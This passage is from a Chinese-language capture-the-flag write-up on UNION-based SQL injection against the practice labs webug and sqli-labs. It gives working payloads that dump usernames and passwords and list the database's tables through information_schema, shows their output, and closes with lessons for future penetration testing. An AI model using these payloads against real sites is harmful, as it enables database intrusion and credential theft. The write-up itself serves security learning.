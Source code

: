 其实我们控制显示位显示的并不完美,万一有多条记录,怎么办? 一堆都显示出来不好看.

我们可以使用 orde by 和 limit 来优化结果. 但是可能是语句太复杂(我测试比较简单的语句不报错), 我这边使用 order by 别名(给 concat_ws 的数据起一个别名) 时, 报错. 不过, 知道这个就好了, 万一以后用得到呢.

## 进一步爆库爆表

虽然 flag 已经拿到了,这里深入一下, 再做几个示例, 毕竟之前你都知道了, 这个是使用 root 登录的想看什么有什么, 这个要是在实战中,这个站已经可以被拿下了. 顺便深入学习一下 mysql 的 information_schema 库.

### 爆 webug 中的用户名以及密码

//猜列名 payload 8:

```php
?id=-1' UNION SELECT 1,2 from (select 1,2,3 union select * from webug.user)tabl --+
```

爆 webug 中的用户名以及密码 payload 9:

```php
?id=-1' UNION SELECT 1,concat_ws(' , ', `1`,`2`,`3`) from (select 1,2,3 union select * from webug.user)tabl --+
```

回显: 1 , 2 , 31 , admin , admin

下面为上面 payload 9 括号中 select 的结果集.

| 1   | 2     | 3     |
| --- | ----- | ----- |
| 1   | 2     | 3     |
| 1   | admin | admin |

虽然不知道字段名, 但是看着这表名 user, 看着这数据 admin, admin, 就算是菜鸡,咱也知道, 这是用户名和密码呀. (推断原表结构大致为: id username password)

### 爆 security 库的表名

security 为 sqli-labs 对应的数据库, 相信你们都有的

构造 payload 10:

```php
?id=-1' UNION SELECT 1, concat(table_name,' , ') from information_schema.tables where table_schema = 'security' --+
```

回显: emails , referers , uagents , users ,

作为菜鸟来说，这个注入就基本完成了，至于要是还有什么深入的理解，以后理解了再说吧 emm...

## 总结回顾

1. 要好好掌握数据库的元数据库, 对应 mysql 中 information_schema 库, 尤其是 tables 表. 以后学习 sqlserver 注入,也要这样学.
2. 如何爆字段名好像还没有学会, 有时间得学一下.
3. mysql 数据库命名规范有时间要看一看.
4. concat 和 concat_ws 可以用来分割不同字段/数据, 至于分隔符选什么,不要选 # , 分号等敏感字符(万一给转义了), 其他的自己看着来吧.
5. 不同版本数据库有些功能可能不同, 以后渗透的时候, 首先注入出数据库版本, 然后自己安装一个对应版本数据库, 这样在构造 paylaod 的时候就更有把握了, 出错也知道是为什么出错. (ps. 避免自己在自己电脑的版本上测试 payload 用到的的某些细节特性正常, 但是测试系统的版本不支持该特性).
